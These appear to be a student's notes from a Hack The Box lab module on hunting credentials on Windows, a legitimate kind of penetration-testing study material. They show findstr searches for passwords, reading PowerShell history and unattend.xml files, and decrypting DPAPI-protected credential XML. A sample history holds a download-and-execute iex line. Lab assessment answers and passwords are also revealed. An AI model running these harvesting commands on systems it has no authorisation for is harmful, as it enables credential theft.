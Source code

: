 # Credential Hunting

## Application Configuration Files

**Searching for Files**

```powershell-session
PS C:\htb> findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml
```

applications often store passwords in cleartext config files.

## Dictionary Files

**Chrome Dictionary Files**

```powershell-session
PS C:\htb> gc 'C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String password

Password1234!
```

The user may add these words to their dictionary to avoid the distracting red underline. (often in text editor the red underline under a word for not recognized word)

## Unattended Installation Files

may define auto-logon settings or additional accounts to be created as part of the installation. Passwords in the `unattend.xml` are stored in plaintext or base64 encoded.

**Unattend.xml**

```xml
<?xml version="1.0" encoding="utf-8"?>
<unattend xmlns="urn:schemas-microsoft-com:unattend">
    <settings pass="specialize">
        <component name="Microsoft-Windows-Shell-Setup" processorArchitecture="amd64" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" xmlns:wcm="http://schemas.microsoft.com/WMIConfig/2002/State" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
            <AutoLogon>
                <Password>
                    <Value>local_4dmin_p@ss</Value>
                    <PlainText>true</PlainText>
                </Password>
                <Enabled>true</Enabled>
                <LogonCount>2</LogonCount>
                <Username>Administrator</Username>
            </AutoLogon>
            <ComputerName>*</ComputerName>
        </component>
    </settings>
```

sysadmins may have created copies of the file in other folders during the development of the image and answer file.

## PowerShell History File

History location

`C:\Users\<username>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`.

**Confirming PowerShell History Save Path**

```powershell-session
PS C:\htb> (Get-PSReadLineOption).HistorySavePath

C:\Users\htb-student\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

**Reading PowerShell History File**

```powershell-session
PS C:\htb> gc (Get-PSReadLineOption).HistorySavePath

dir
cd Temp
md backups
cp c:\inetpub\wwwroot\* .\backups\
Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://www.powershellgallery.com/packages/MrAToolbox/1.0.1/Content/Get-IISSite.ps1'))
. .\Get-IISsite.ps1
Get-IISsite -Server WEB02 -web "Default Web Site"
wevtutil qe Application "/q:*[Application [(EventID=3005)]]" /f:text /rd:true /u:WEB02\administrator /p:5erv3rAdmin! /r:WEB02
```

One-Liner to retrive all powershell history possible from our account

```powershell-session
foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}
```

## PowerShell Credentials

often used for scripting and automation tasks as a way to store encrypted credentials conveniently. It's protected using DPAPI, they can **only be drecrypted by same user on the same computer they were created on**.

**Decrypting PowerShell Credentials**

```powershell-session
PS C:\htb> $credential = Import-Clixml -Path 'C:\scripts\pass.xml'
PS C:\htb> $credential.GetNetworkCredential().username

bob


PS C:\htb> $credential.GetNetworkCredential().password

Str0ng3ncryptedP@ss!
```

## Assessment

<details>

<summary>Search the file system for a file containing a password. Submit the password as your answer.</summary>

```powershell
PS C:\Users> findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml
All Users\Druva\inSync4\users\HTB-STUDENT\inSync.cfg
All Users\Microsoft\IdentityCRL\INT\wlidsvcconfig.xml
All Users\Microsoft\IdentityCRL\production\wlidsvcconfig.xml
. . .
htb-student\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt
htb-student\AppData\Local\Google\Chrome\User Data\ZxcvbnData\1\passwords.txt
. . .
htb-student\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
htb-student\Documents\stuff.txt
Public\Documents\settings.xml
```

last file seems interesting&#x20;

```
PS C:\Users> gc 'C:\Users\Public\Documents\settings.xml' | Select-String password                                       
      <password>Pr0xyadm1nPassw0rd!</password>
     | NOTE: You should either specify username/password OR
      <password>repopwd</password>
```

**`Pr0xyadm1nPassw0rd!`**

</details>

<details>

<summary>Connect as the bob user and practice decrypting the credentials in the pass.xml file. Submit the contents of the flag.txt on the desktop once you are done.</summary>

Confirm the location of pass.xml

```
PS C:\Users\bob> dir C:\scripts\


    Directory: C:\scripts


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         5/24/2021   6:08 PM           1828 pass.xml

```

The password is encrypted and to get it we have to use the Import-Clixml module in powershell

```
PS C:\Users\bob> $credential = Import-Clixml -Path 'C:\scripts\pass.xml'
PS C:\Users\bob> $credential.GetNetworkCredential().password
Str0ng3ncryptedP@ss!
```

</details>

